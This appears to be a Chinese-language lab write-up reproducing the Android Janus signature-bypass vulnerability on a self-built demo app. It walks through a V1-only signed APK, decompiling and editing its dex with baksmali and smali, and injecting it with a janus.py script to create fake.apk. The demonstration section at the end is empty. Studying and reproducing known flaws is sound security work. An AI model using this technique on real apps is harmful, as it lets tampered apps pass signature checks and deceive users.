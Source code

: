# Android
> 漏洞复现：仅描述具体的复现过程，关于Janus漏洞原理和复现详情：https://drag0nf1y.github.io/
Janus漏洞复现：
## 复现过程
### 材料准备

#### 创建原始APP
MainActivity.java
```java
package com.example.a;

import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.Toast;

public class MainActivity extends AppCompatActivity implements View.OnClickListener{

    private Button button;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        button = (Button) findViewById(R.id.button);
        button.setOnClickListener(this);
    }

    @Override
    public void onClick(View v) {
        Toast.makeText(getApplicationContext(),"I am QT!!!",Toast.LENGTH_LONG).show();
    }
}
```
activity_main.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<android.support.constraint.ConstraintLayout
    xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    xmlns:app="http://schemas.android.com/apk/res-auto"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    tools:context=".MainActivity">

    <Button
        android:id="@+id/button"
        android:layout_width="117dp"
        android:layout_height="57dp"
        android:layout_gravity="center_horizontal"
        android:text="button"
        tools:ignore="MissingConstraints"
        tools:layout_editor_absoluteX="138dp"
        tools:layout_editor_absoluteY="324dp" />
</android.support.constraint.ConstraintLayout>
```
编译后，使用V1签名，而不使用V2签名
#### 检查原始APP
```c
C:\Users\伊木\Desktop\工具集\moblietools>java -jar GetAPKInfo.jar app-release.apk
执行结果: 成功
应用信息:
  包名: com.example.a
  版本名: 1.0
  版本号: 1
  签名文件MD5: 81d388301593097620b9e80d01a22a42
  SDK版本:
      minSdkVersion:22
      targetSdkVersion:28
  V1签名验证通过: true
  使用V2签名: false
  V2签名验证通过: false
  使用V3签名: false
  V3签名验证通过: false
  签名验证详细信息: {"ret":0,"msg":"","isV1OK":true,"isV2":false,"isV2OK":false,"isV3":false,"isV3OK":false,"keystoreMd5":"81d388301593097620b9e80d01a22a42"}
```
可见刚刚所编译得到的app是V1签名的，而不是V2签名的。
接下来进行攻击。

### 攻击过程
* apk直接解压得到dex文件

* 反编译dex文件
```c
java -jar baksmali-2.3.3.jar d classes.dex
```
得到的out文件中：
android/
androidx/
com

源文件在包com.example.a中。
* 修改源文件中，我们需要修改的部分，在这里我修改了字符串

* 重新打包得到dex
```c
java -jar smali-2.3.3.jar assemble out
```
在目录下重新生成out.dex
* 将dex放入原Janus.apk里
```c
python janus.py out.dex app-release.apk fake.apk
```
### 演示
